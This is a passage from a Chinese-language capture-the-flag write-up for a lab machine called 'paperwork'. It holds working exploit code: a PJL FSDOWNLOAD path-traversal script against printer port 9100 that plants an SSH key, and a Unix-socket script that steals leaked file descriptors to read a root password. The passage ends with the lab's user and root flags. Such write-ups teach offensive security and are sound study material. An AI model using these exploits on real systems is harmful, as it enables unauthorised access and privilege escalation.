with open("id_ed25519.pub") as f:
    pub = f.read().strip().encode() + b"\n"

body = b'@PJL FSDOWNLOAD NAME="0:/../.ssh/authorized_keys" SIZE=%d\r\n' % len(pub) + pub

s = socket.socket()
s.settimeout(5)
s.connect(("127.0.0.1", 9100))
s.send(b"\x1b%-12345X" + body + b"\x1b%-12345X\r\n")
try:
    print(s.recv(200))
except Exception:
    pass
s.close()
```

这里我在本地执行一直莫名的 time out 。

因此我就将他上传到靶机在 `lp` 的 shell 下执行。

```bash
lp@paperwork:/tmp$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/var/spool/lpd/.ssh/id_ed25519): ./id_ed25519
Enter passphrase for "./id_ed25519" (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./id_ed25519
Your public key has been saved in ./id_ed25519.pub
The key fingerprint is:
SHA256:odGqMRudkVX6oqE2pOTjY/xQ/V9IXMFY8Z231aQVwV4 lp@paperwork
The key's randomart image is:
+--[ED25519 256]--+
|        ...++..o=|
|       + .. .o *E|
|      + +   . +.*|
|     o * + .   .+|
|  . * B S +    . |
| o + B + o .     |
| .= * . . . .    |
| .++ .   . .     |
| ..o.     .      |
+----[SHA256]-----+
lp@paperwork:/tmp$ python3 exploit_archivist.py
b'OK\r\n'
```

此时在本地可以使用私钥登录。

```bash
❯ ssh archivist@paperwork.htb -i id_ed25519
Last login: Thu May 28 15:22:41 UTC 2026 from 10.10.14.3 on ssh
Welcome to Ubuntu 25.10 (GNU/Linux 6.17.0-40-generic x86_64)

 * Documentation:  https://docs.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
Last login: Sun Jul 12 08:23:25 2026 from 10.10.17.28
archivist@paperwork:~$ cat user.txt
8e8852a4152c7d3f9ace112eb897f07a
```

## Shell as root

### paperwork-daemon 利用

事不宜迟，接下来应该通过 [paperwork-daemon](#paperwork-daemon) 脚本的内容来提权了。

由于在利用 `JetDirect` 的时候我们肯定留下了很多指令在 `common.log` 中。

因此现在只要我们一访问 `/run/paperwork/mgmt.sock` 他就会主动将描述符交给我们：

```py
import socket, array, os

SOCK_PATH = "/run/paperwork/mgmt.sock"

s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect(SOCK_PATH)

fds = array.array("i")
ancbuf_size = socket.CMSG_SPACE(2 * fds.itemsize)  # 预期收 2 个 fd: log_fd, admin_fd

msg, ancdata, flags, addr = s.recvmsg(4096, ancbuf_size)
print("Message:", msg)

for cmsg_level, cmsg_type, cmsg_data in ancdata:
    if cmsg_level == socket.SOL_SOCKET and cmsg_type == socket.SCM_RIGHTS:
        fds.frombytes(cmsg_data[: len(cmsg_data) - (len(cmsg_data) % fds.itemsize)])

print("Received FDs:", list(fds))

if len(fds) >= 2:
    log_fd, admin_fd = fds[0], fds[1]   # 顺序对应源码里 array.array("i", [log_fd, admin_fd])
    data = os.pread(admin_fd, 1024, 0)
    print("admin_pins.conf :")
    print(data.decode(errors="replace"))
```

上传到靶机尝试利用：

```bash
archivist@paperwork:~$ python3 abuse.py
Message: b'ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED.'
Received FDs: [4, 5]
admin_pins.conf :
ADMIN_PASSWORD=ApparelMortuaryCedar22
```

尝试登录：

```bash
archivist@paperwork:~$ su root
Password:
root@paperwork:/home/archivist# cd
root@paperwork:~# ls
quarantine  root.txt  staging
root@paperwork:~# cat root.txt
e12994e5e060109d33c2335f87ce94e1
```

可以看到这个 `ADMIN_PASSWORD` 就是 root 的密码。

拿下此局。


## 参考

[1] 9100/tcp - PJL (Printer Job Language). HackTrick. https://hacktricks.wiki/af/network-services-pentesting/9100-pjl.html
